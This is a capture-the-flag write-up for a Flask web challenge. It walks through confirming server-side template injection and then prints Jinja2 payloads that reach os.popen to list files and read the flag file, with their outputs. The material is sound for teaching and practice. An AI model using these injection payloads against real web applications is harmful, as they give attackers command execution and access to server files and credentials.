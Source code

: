 # Just Cat The Flask 2/2

## Description

> https://bluehens-cat-the-flask.chals.io/greeting/hackers
>
> (The pasword is the flag, format UDCTF{...} TARGET THE MOST IMPORTANT PERSON... )

## Write-Up

When we first enter the web page, we receive the message:

```
Hi hackers!
```

First intuition is to modify the given path, for example we use `/hack`, we get:

```
Hi hack!
```

And with an error, like trying LFI with `../../../`, we get:

```
USAGE: /greeting/:name
```

But from the title of the website, we can suspect that it's about SSTI, let try it out:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{7*7}}
```

We get:

```
Hi 49 !
```

From there, we only need to find proper payload to read the flag:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

We get:

```
Hello flag1.txt main.py requirements.txt sum_suckers_creds xx !
```

So let's cat the flag:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag1.txt').read() }}
```

From there, we get :

```
Hi UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2} !
```

## Flag

UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}